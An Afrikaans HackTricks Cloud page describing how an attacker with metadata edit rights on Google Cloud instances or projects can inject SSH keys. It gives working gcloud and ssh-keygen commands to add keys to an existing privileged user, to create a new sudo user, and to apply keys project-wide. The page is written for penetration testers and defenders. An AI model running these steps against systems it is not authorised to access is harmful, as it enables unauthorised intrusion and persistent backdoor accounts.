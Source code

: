 # GCP - Voeg Aangepaste SSH Metadata By

<details>

<summary><strong>Leer AWS hak van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien jou **maatskappy geadverteer in HackTricks** of **laai HackTricks af in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Wysiging van die metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadatabewerking op 'n instansie kan lei tot **beduidende sekuriteitsrisiko's as 'n aanvaller die nodige toestemmings verkry**.

### **Insluiting van SSH-sleutels in Aangepaste Metadata**

Op GCP, voer **Linux-stelsels** dikwels skripte uit van die [Python Linux-gaskameromgewing vir Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). 'n Kritieke komponent hiervan is die [rekenaar-daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), wat ontwerp is om gereeld die instansiemetadatapunt vir **opdaterings van die geagte SSH openbare sleutels** te kontroleer.

Daarom, as 'n aanvaller aangepaste metadata kan wysig, kan hy die daemon 'n nuwe openbare sleutel laat vind, wat verwerk en **geïntegreer word in die plaaslike stelsel**. Die sleutel sal bygevoeg word in `~/.ssh/authorized_keys` lêer van 'n **bestaande gebruiker of moontlik 'n nuwe gebruiker met `sudo`-bevoegdhede** skep, afhangende van die sleutel se formaat. En die aanvaller sal die gasheer kan kompromitteer.

### **Voeg SSH-sleutel by tot bestaande bevoorregte gebruiker**

1. **Ondersoek Bestaande SSH-sleutels op die Instansie:**
- Voer die bevel uit om die instansie en sy metadata te beskryf om bestaande SSH-sleutels te vind. Die relevante afdeling in die uitset sal onder `metadata` wees, spesifiek die `ssh-keys` sleutel.
```bash
gcloud compute instances describe [INSTANSIE] --zone [SONE]
```
- Let op die formaat van die SSH-sleutels: die gebruikersnaam kom voor die sleutel, geskei deur 'n kolon.

2. **Berei 'n tekslêer voor vir SSH-sleutelmetadata:**
- Berg die besonderhede van gebruikersname en hul ooreenstemmende SSH-sleutels op in 'n tekslêer genaamd `meta.txt`. Dit is noodsaaklik om die bestaande sleutels te behou terwyl nuwes bygevoeg word.

3. **Genereer 'n Nuwe SSH-sleutel vir die Teiken Gebruiker (`alice` in hierdie voorbeeld):**
- Gebruik die `ssh-keygen` bevel om 'n nuwe SSH-sleutel te genereer, en verseker dat die kommentaarveld (`-C`) ooreenstem met die teiken gebruikersnaam.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Voeg die nuwe openbare sleutel by in `meta.txt`, wat die formaat naboots wat in die instansie se metadata gevind word.

4. **Werk die Instansie se SSH-sleutelmetadata by:**
- Pas die opgedateerde SSH-sleutelmetadata op die instansie toe deur die `gcloud compute instances add-metadata` bevel te gebruik.
```bash
gcloud compute instances add-metadata [INSTANSIE] --metadata-from-file ssh-keys=meta.txt
```

5. **Kry Toegang tot die Instansie met die Nuwe SSH-sleutel:**
- Verbind met die instansie met SSH deur die nuwe sleutel te gebruik, en kry toegang tot die skaal in die konteks van die teiken gebruiker (`alice` in hierdie voorbeeld).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Skep 'n nuwe bevoorregte gebruiker en voeg 'n SSH-sleutel by**

As geen interessante gebruiker gevind word nie, is dit moontlik om 'n nuwe een te skep wat `sudo`-bevoegdhede sal kry:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH-sleutels op projekvlak <a href="#sshing-around" id="sshing-around"></a>

Dit is moontlik om die reikwydte van SSH-toegang tot verskeie virtuele masjiene (VM's) in 'n wolk-omgewing te verbreed deur **SSH-sleutels op projekvlak toe te pas**. Hierdie benadering maak SSH-toegang moontlik tot enige instansie binne die projek wat nie uitdruklik projekwye SSH-sleutels geblokkeer het nie. Hier is 'n opgesomde gids:

1. **Pas SSH-sleutels op Projekvlak Toe:**
- Gebruik die `gcloud compute project-info add-metadata`-bevel om SSH-sleutels van `meta.txt` by die metadata van die projek te voeg. Hierdie aksie verseker dat die SSH-sleutels erken word regoor alle VM's in die projek, tensy 'n VM die "Blokkeer projekwye SSH-sleutels" opsie geaktiveer het.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH na Instansies met Projekwyde Sleutels:**
- Met projekwyde SSH-sleutels op hul plek, kan jy SSH na enige instansie binne die projek. Instansies wat nie projekwye sleutels blokkeer nie, sal die SSH-sleutel aanvaar en toegang verleen.
- 'n Direkte metode om SSH na 'n instansie te maak, is deur die `gcloud compute ssh [INSTANSIE]`-bevel te gebruik. Hierdie bevel gebruik jou huidige gebruikersnaam en die SSH-sleutels wat op projekvlak ingestel is om toegang te probeer verkry.

# Verwysings
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
